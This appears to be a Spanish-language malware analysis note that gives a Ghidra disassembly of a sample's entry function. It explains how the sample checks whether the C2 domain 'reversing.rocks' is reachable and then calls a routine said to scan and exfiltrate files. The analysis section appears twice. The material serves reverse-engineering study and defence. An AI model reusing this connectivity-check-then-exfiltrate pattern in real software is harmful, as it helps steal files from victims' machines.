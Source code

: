 ```

                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __stdcall FUN_004011a0(void)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
                             FUN_004011a0                                    XREF[1]:     ___tmainCRTStartup:004013c5(c)
        004011a0 6a 00           PUSH       0x0
        004011a2 6a 01           PUSH       0x1
        004011a4 68 2c 21        PUSH       s_http://reversing.rocks/_0040212c               = "http://reversing.rocks/"
                 40 00
        004011a9 ff 15 ac        CALL       dword ptr [->WININET.DLL::InternetCheckConnect   = 0000239e
                 20 40 00
        004011af 85 c0           TEST       EAX,EAX
        004011b1 74 0d           JZ         LAB_004011c0
        004011b3 e8 78 ff        CALL       FUN_00401130                                     undefined4 FUN_00401130(void)
                 ff ff
        004011b8 6a 00           PUSH       0x0
        004011ba ff 15 34        CALL       dword ptr [->MSVCR120.DLL::exit]                 = 000023fe
                 20 40 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
                             LAB_004011c0                                    XREF[1]:     004011b1(j)
        004011c0 6a 01           PUSH       0x1
        004011c2 ff 15 34        CALL       dword ptr [->MSVCR120.DLL::exit]                 = 000023fe
                 20 40 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
             assume FS_OFFSET = <UNKNOWN>
        004011c8 cc              ??         CCh
             assume FS_OFFSET = 0xffdff000
                             LAB_004011c9                                    XREF[1]:     004020d4(*)
        004011c9 b8 4d 5a        MOV        EAX,0x5a4d
                 00 00
        004011ce 66 39 05        CMP        word ptr [IMAGE_DOS_HEADER_00400000],AX
                 00 00 40 00
        004011d5 74 04           JZ         LAB_004011db
                             LAB_004011d7                                    XREF[2]:     004011eb(j), 004011f9(j)
        004011d7 33 c0           XOR        EAX,EAX
        004011d9 eb 34           JMP        LAB_0040120f
                             LAB_004011db                                    XREF[1]:     004011d5(j)
        004011db 8b 0d 3c        MOV        ECX,dword ptr [IMAGE_DOS_HEADER_00400000.e_lfa
                 00 40 00
        004011e1 81 b9 00        CMP        dword ptr [ECX + 0x400000]=>IMAGE_NT_HEADERS32
                 00 40 00
                 50 45 00 00
        004011eb 75 ea           JNZ        LAB_004011d7
        004011ed b8 0b 01        MOV        EAX,0x10b
                 00 00
        004011f2 66 39 81        CMP        word ptr [ECX + 0x400018]=>IMAGE_NT_HEADERS32_
                 18 00 40 00
        004011f9 75 dc           JNZ        LAB_004011d7
        004011fb 33 c0           XOR        EAX,EAX
        004011fd 83 b9 74        CMP        dword ptr [ECX + 0x400074]=>IMAGE_NT_HEADERS32
                 00 40 00 0e
        00401204 76 09           JBE        LAB_0040120f
        00401206 39 81 e8        CMP        dword ptr [ECX + 0x4000e8]=>IMAGE_NT_HEADERS32
                 00 40 00
        0040120c 0f 95 c0        SETNZ      AL
                             LAB_0040120f                                    XREF[2]:     004011d9(j), 00401204(j)
        0040120f 6a 01           PUSH       0x1
        00401211 a3 30 30        MOV        [DAT_00403030],EAX
                 40 00
        00401216 ff 15 44        CALL       dword ptr [->MSVCR120.DLL::__set_app_type]       = 00002440
                 20 40 00
        0040121c 59              POP        ECX
        0040121d 6a ff           PUSH       -0x1
        0040121f ff 15 24        CALL       dword ptr [->KERNEL32.DLL::EncodePointer]        = 000025be
                 20 40 00
        00401225 8b 0d 64        MOV        ECX,dword ptr [->MSVCR120.DLL::_fmode]           = 000024b4
                 20 40 00
        0040122b a3 80 33        MOV        [DAT_00403380],EAX
                 40 00
        00401230 a3 84 33        MOV        [DAT_00403384],EAX
                 40 00
        00401235 a1 54 30        MOV        EAX,[DAT_00403054]
                 40 00
        0040123a 89 01           MOV        dword ptr [ECX],EAX
        0040123c 8b 0d 68        MOV        ECX,dword ptr [->MSVCR120.DLL::_commode]         = 000024be
                 20 40 00
        00401242 a1 48 30        MOV        EAX,[DAT_00403048]
                 40 00
        00401247 89 01           MOV        dword ptr [ECX],EAX
        00401249 e8 29 05        CALL       FUN_00401777                                     undefined FUN_00401777(void)
                 00 00
        0040124e e8 45 02        CALL       FUN_00401498                                     undefined4 FUN_00401498(void)
                 00 00
        00401253 83 3d 00        CMP        dword ptr [DAT_00403000],0x0                     = 00000001h
                 30 40 00 00
        0040125a 75 0c           JNZ        LAB_00401268
        0040125c 68 98 14        PUSH       FUN_00401498
                 40 00
        00401261 ff 15 54        CALL       dword ptr [->MSVCR120.DLL::__setusermatherr]     = 0000247a
                 20 40 00
        00401267 59              POP        ECX
                             LAB_00401268                                    XREF[1]:     0040125a(j)
        00401268 e8 4a 05        CALL       FUN_004017b7                                     undefined FUN_004017b7(void)
                 00 00
        0040126d 83 3d 10        CMP        dword ptr [DAT_00403010],-0x1                    = FFFFFFFEh
                 30 40 00 ff
        00401274 75 09           JNZ        LAB_0040127f
        00401276 6a ff           PUSH       -0x1
        00401278 ff 15 50        CALL       dword ptr [->MSVCR120.DLL::_configthreadlocale]  = 00002464
                 20 40 00
        0040127e 59              POP        ECX
                             LAB_0040127f                                    XREF[1]:     00401274(j)
        0040127f 33 c0           XOR        EAX,EAX
        00401281 c3              RET
        00401282 68              ??         68h    h
        00401283 97              ??         97h                                              ?  ->  00401797
        00401284 17              ??         17h
        00401285 40              ??         40h    @
        00401286 00              ??         00h
        00401287 e8              ??         E8h
        00401288 d6              ??         D6h
        00401289 04              ??         04h
        0040128a 00              ??         00h
        0040128b 00              ??         00h
        0040128c a1              ??         A1h
        0040128d 50              ??         50h    P                                         ?  ->  00403050

```

La función FUN_004011a0 es el punto de entrada principal del malware, referenciada desde ___tmainCRTStartup. Su función es comprobar la conectividad a internet y ejecutar la lógica maliciosa principal si la conexión con el C2 (Command & Control) está activa.


### 🧠 RESUMEN DEL COMPORTAMIENTO
1️⃣	Comprueba si hay conexión con http://reversing.rocks/ usando InternetCheckConnectionA.  
2️⃣	Si hay conexión, llama a FUN_00401130 (que inicializa WinINet y lanza la exfiltración de datos).  
3️⃣	Si no hay conexión, termina el proceso con exit(1).  

## 🔍 ANÁLISIS DETALLADO
###🔹 1. Comprobación de conexión a Internet
```
004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0
```
- Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.
- Si no hay conexión (EAX = 0), salta a exit(1).

### 🔹 2. Ejecución del payload si hay conexión
```
004011b3 CALL FUN_00401130
```
Ya analizamos, esta función [FUN_00401130](FUN_00401130.md):  
- Llama a InternetOpenA, InternetConnectA  
- Inicia comunicación con el servidor remoto  
- Llama a FUN_00401000 → escaneo y exfiltración de archivos [FUN_00401000](FUN_00401000.md)  

###🔹 3. Finalización del proceso
```
004011ba CALL [exit]
```
- Llama a exit(0) si tuvo éxito
- O a exit(1) si falló
    
## 🔍 ANÁLISIS DETALLADO
###🔹 1. Comprobación de conexión a Internet
```
004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0
```
- Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.
- Si no hay conexión (EAX = 0), salta a exit(1).

###🔹 2. Ejecución del payload si hay conexión
```
004011b3 CALL FUN_00401130
```
- Llama a InternetOpenA, InternetConnectA
- Inicia comunicación con el servidor remoto
- Llama a FUN_00401000 → escaneo y exfiltración de archivos [FUN_00401000](FUN_00401000.md) 

###🔹 3. Finalización del proceso
```
004011ba CALL [exit]
```
- Llama a exit(0) si tuvo éxito
- O a exit(1) si falló
